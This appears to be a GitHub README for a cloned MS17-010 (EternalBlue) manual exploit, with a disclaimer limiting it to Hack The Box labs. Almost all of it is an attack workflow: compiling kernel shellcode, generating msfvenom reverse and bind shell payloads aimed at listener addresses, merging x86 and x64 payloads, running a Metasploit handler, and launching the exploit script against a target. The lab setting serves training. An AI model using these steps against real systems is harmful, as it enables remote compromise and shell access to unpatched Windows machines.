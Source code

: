 
---
Disclaimer
---

`This exploit code clone from https://github.com/a6avind/MS17-010`
`It only be used on solving HTB lab.`

---
Origin README content
---

# MS17-010 manual exploit

Original Source  https://github.com/worawit/MS17-010

## Creating payload for X64
### Compiling x64 kernel shellcode
    nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
### Reverse shell
    msfvenom -p windows/x64/shell/reverse_tcp EXITFUNC=thread lhost=192.168.1.10 lport=4443 -f raw -o sc_x64_msf.bin
### Bind shell
    msfvenom -p windows/x64/shell/bind_tcp EXITFUNC=thread LPORT=4443 -f raw -o sc_x64_msf.bin
### Combine both nasm output and our payload
    cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
## Creating payload for X86
### Compiling x86 kernel shellcode
    nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin
### Reverse shell
    msfvenom -p windows/shell/reverse_tcp EXITFUNC=thread LHOST=192.168.1.100 LPORT=4444 -f raw -o sc_x86_msf.bin
### Bind shell
    msfvenom -p windows/shell/bind_tcp EXITFUNC=thread LPORT=4444 -f raw -o sc_x86_msf.bin

## Combine both nasm output and our payload    
    cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin

## Listener

    msfconsole

    use exploit/multi/handler
    set payload <payload you specified with msfvenom>
    set lport 4443
    set rhost 192.168.1.100
    exploit -j

    Do the same steps for port 4444
    So two listener will be running at same time
## Combine both x86 and x64 payload (if we don't know the architecture of the attacking machine)
    python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
## Run the code
    python eternalblue_exploit7.py 192.168.1.100 sc_all.bin

